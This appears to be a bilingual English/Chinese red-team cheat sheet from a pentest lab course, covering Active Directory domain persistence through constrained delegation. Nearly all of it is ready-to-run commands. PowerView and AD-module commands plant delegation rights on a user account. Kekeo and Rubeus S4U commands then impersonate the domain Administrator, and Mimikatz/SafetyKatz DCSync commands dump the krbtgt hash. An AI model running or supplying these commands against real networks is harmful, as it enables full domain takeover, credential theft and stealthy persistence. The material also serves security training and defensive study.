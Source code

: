 - That is, we can force set 'Trusted to Authenticate for Delegation' and ms-DS-AllowedToDelegateTo on a user (or create a new user - which is more noisy) and abuse it later.（也就是说，我们可以对用户强制设置 'Trusted to Authenticate for Delegation' 和 ms-DS-AllowedToDelegateTo（或创建一个新用户 - 噪音更大），然后再滥用它。）



# Persistence（域持久性） - msDS-AllowedToDelegateTo

## 设置
使用PowerView
```
Set-DomainObject -Identity devuser -Set @{serviceprincipalname='dev/svc'}

Set-DomainObject -Identity devuser -Set @{"msds-allowedtodelegateto"="ldap/us-dc.us.techcorp.local"}

Set-DomainObject -SamAccountName devuser1 -Xor @{"useraccountcontrol"="16777216"}

Get-DomainUser –TrustedToAuth
```

使用AD module
```
Set-ADUser -Identity devuser -ServicePrincipalNames @{Add='dev/svc'}

Set-ADUser -Identity devuser -Add @{'msDS-AllowedToDelegateTo'= @('ldap/us-dc','ldap/us-dc.us.techcorp.local')} -Verbose

Set-ADAccountControl -Identity devuser -TrustedToAuthForDelegation $true

Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

## Abuse using Kekeo
```
kekeo# tgt::ask /user:devuser /domain:us.techcorp.local /password:Password@123!

kekeo# tgs::s4u /tgt:TGT_devuser@us.techcorp.local_krbtgt~us.techcorp.local@us.techcorp.local.kirbi /user:Administrator@us.techcorp.local /service:ldap/us-dc.us.techcorp.local

Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@us.techcorp.local@us.techcorp.local_ldap~us-dc.us.techcorp.local@us.techcorp.local.kirbi"'

Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
```

Abuse using Rubeus
```
Rubeus.exe hash /password:Password@123! /user:devuser /domain:us.techcorp.local

Rubeus.exe s4u /user:devuser /rc4:539259E25A0361EC4A227DD9894719F6 /impersonateuser:administrator /msdsspn:ldap/us-dc.us.techcorp.local /domain:us.techcorp.local /ptt

C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
```
